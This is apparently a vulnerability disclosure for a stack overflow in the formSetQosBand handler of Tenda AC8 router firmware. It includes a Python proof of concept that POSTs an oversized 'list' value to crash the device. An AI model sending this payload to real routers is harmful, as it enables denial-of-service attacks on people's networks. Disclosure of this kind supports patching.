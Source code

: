 # Tenda router formSetQosBand function stack overflow vulnerability

> vendor:Tenda
>
> product:AC8
>
> version:v4.0 v16.03.34.09
>
> type:Stack Overflow

## Vulnerability Description

Tenda AC8 v4.0 v16.03.34.09 were discovered to contain a stack overflow via the list parameter in the formSetQosBand function.

## Vulnerability Details

In this function, the websGetVar function obtains the list variable and assigns it to s, and s is called by the set_qosMib_list function. In the set_qosMib_list function, the variable is passed to the dangerous function strcpy without processing, which may cause the stack buffer based on v9 Overflow, by obtaining the Post request of this page, the attacker can carefully construct the overflow data to conduct a denial of service attack(Dos).

<img width="555" alt="image" src="https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/6e392293-d83b-4f21-ac93-b60c95a7380e">
<img width="470" alt="image" src="https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/e9a98d73-7d13-4e2d-aa52-d2494f2ba687">


## POC

    import socket
    import os
    from pwn import *

    li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
    ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    ip = '192.168.244.130'
    port = 80

    r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    li('[+] connecting')
    r.connect((ip, port))
    li('[+] connect finish')

    rn = b'\r\n'

    p1 = b'A' * 0x500

    p2 = b'list=' + p1

    p3 = b"POST /goform/SetNetControlList" + b" HTTP/1.1" + rn
    p3 += b"Host: 192.168.244.130" + rn
    p3 += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36" + rn
    p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
    p3 += b"Accept-Language: gzip, deflate" + rn
    p3 += b"Accept-Encoding: zh-CN,zh;q=0.9" + rn
    p3 += b"Cookie: password=cjq1qw" + rn
    p3 += b"Connection: close" + rn
    p3 += b"Upgrade-Insecure-Requests: 1" + rn
    p3 += (b"Content-Length: %d" % len(p2)) +rn
    p3 += b'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'+rn
    p3 += rn
    p3 += p2

    li('[+] sending payload')
    r.send(p3)

    response = r.recv(4096)
    response = response.decode()
    li(response)


   
